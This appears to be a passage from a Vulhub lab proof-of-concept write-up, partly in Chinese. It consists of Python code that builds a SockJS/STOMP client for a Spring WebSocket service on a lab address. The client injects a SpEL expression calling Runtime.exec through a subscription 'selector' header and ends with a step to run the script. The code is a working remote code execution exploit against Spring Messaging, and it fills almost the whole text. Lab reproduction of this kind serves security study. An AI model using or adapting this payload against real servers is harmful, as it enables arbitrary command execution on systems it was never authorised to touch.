 ```python
    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://192.168.1.10:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

5.执行poc

```python
python3 POC.py
```
